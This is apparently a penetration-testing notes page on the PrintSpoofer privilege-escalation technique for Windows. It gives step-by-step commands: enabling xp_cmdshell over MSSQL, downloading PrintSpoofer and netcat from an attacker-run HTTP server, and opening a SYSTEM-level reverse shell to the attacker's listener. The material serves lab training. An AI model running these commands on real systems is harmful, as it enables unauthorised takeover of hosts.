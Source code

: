 ```yaml
---
title: PrintSpoofer
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
  - SeImpersonatePrivilege
---
```

# 🖨️ PrintSpoofer

!!! tip "Kernel exploits"
	- [Windows kernel exploits](windows-kernel-exploits.md)
	- [Linux kernel exploits](linux-kernel-exploits.md)


 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage `NT AUTHORITY\SYSTEM` level access on Windows Server 2019 and Windows 10 build 1809 onwards when the  command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. 

Download from: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

**1.** Spawn a SYSTEM process on a desktop or catch a reverse shell. For instance, let's imagine that we have access with

```
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```

And that our user has the SeImpersonatePrivilege  listed when running:

```
enable_xp_cmdshell
xp_cmdshell whoami /priv
```

**2.** Download the PrintSpoofer64.exe file from kali to the host

```
# from a different kali terminal locate the file and then
python3 -m http.server 80

# From the terminal with the mssql connection, upload PrintSpoofer64.exe and nc.exe
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/PrintSpoofer64.exe -outfile PrintSpoofer64.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```

**3.** Set a listener in the kali and execute it from the host:

```
# Set a listener from the kali machine
nc -lnvp 1234

# Execute the PrintSpoofer
xp_cmdshell "powershell -c cd C:\Tools; .\PrintSpoofer64.exe
 -c "C:\Tools\nc64.exe  $IPfromOurKali 1234 -e cmd"
```